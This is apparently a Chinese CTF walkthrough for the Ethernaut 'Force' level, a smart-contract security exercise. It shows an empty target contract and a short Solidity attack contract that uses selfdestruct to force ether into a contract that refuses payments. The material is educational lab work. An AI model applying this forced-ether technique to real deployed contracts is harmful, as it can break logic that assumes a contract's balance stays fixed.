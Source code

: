 # Force

> 有些智能合约根本不会收你的钱 ¯\_(ツ)_/¯
> 
> 本次目标是让这个合约的余额大于0.

[link](https://ethernaut.openzeppelin.com/level/0x46f79002907a025599f355A04A512A6Fd45E671B)


```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

很明显，这个卖萌的小猫正在狠狠嘲讽你的无能。

首先尝试一下直接用metamask给这个合约地址转账，显示转账失败。原因如下

> 如果既没有直接接收以太（receive函数），也没有可接收以太的 fallback 函数， 合约就不能通过常规交易接收以太，并抛出一个异常。

在这个时候，考虑使用selfdestruct把eth硬生生塞进去。

```sol
contract Attack {

    function attack(address addr_) external payable {
      selfdestruct(payable(addr_));
    }
}
```
